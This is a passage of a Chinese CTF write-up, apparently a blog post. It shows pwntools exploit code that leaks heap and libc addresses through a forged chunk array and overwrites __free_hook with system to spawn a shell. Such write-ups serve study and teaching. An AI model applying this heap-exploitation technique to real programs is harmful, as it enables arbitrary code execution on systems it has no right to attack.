 ![在这里插入图片描述](https://img-blog.csdnimg.cn/f0caae54a60245fc93f7b19db749773b.png)

之后修改0x13370800处的第三个和第四个数分别为0和0x13377331，两者异或得到0x13377331，越过show函数的检查，此时已经可以使用show函数，因为我们要泄露的unsortedbin chunk的fd指针（指向main_arena+88），我们必须在chunk的全局数组中写入0x56104462a060来show，但是程序每次运行地址不同，由上图可知fake_chunk+3处存放的就是0x56104462a060，
所以我们需要利用fake_chunk+3（unsortedbin chunk的地址）来泄露libc，我们每次把chunk0的位置写为0x13370800，就可以实现每次通过chunk0来控制0x13370800

	payload = p64(0)*3 +p64(0x13377331)  #满足show的条件
	payload += p64(0x13370800) + p64(0x1000) #chunk0
	payload += p64(fake_chunk+3) + p64(8)   #chunk1
	edit(0, payload) #满足show的条件
	
	show(1)  #我们刚刚house of storm 写的地址泄漏出来
	ru("]: ")
	heap = u64(r(6).ljust(8, '\x00'))
	success("heap:"+hex(heap))
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/cf60539043db433c95bc3f6a7ac6caff.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/29c15a75b6b34ba1988f64a95bdcf946.png)
此时我们成功泄露出unsortedbin chunk的地址，我们再修改全局数组为unsortedbin chunk的地址+0x10（main_arena+88），然后即可泄露处libc基地址

	payload  = p64(0)*3 + p64(0x13377331)#满足show的条件
	payload += p64(0x13370800) + p64(0x1000) #chunk0
	payload += p64(heap+0x10) + p64(8) #chunk1
	edit(0, payload)
	show(1) #泄漏libc地址
	ru("]: ")
	malloc_hook = u64(r(6).ljust(8, '\x00')) -0x58 - 0x10
	libc_base = malloc_hook - libc.sym['__malloc_hook']
	free_hook = libc_base+libc.sym['__free_hook']
	system = libc_base+ libc.sym['system']
	success("free_hook:"+hex(free_hook))
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/aed1148758fa403a88ce058db848df8b.png)

之后我们要做到就是在全局数组里写入free hook地址和/bin/sh，将其改为system，获得shell，free_hook在chunk0处，/bin/sh\x00在chunk1处

	#--------------修改 free_hook -----------------------------------#
	payload  = p64(0)*4
	payload += p64(free_hook) + p64(0x100)#chunk0
	payload += p64(0x13370800+0x40) + p64(8)#chunk1
	payload += '/bin/sh\x00'
	edit(0, payload)
	
	dbg()
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/bb966a3843c24bdcac635f1a1d52c453.png)
之后改free_hook为system，free(1)，获得shell

	edit(0, p64(system))
	free(1)
	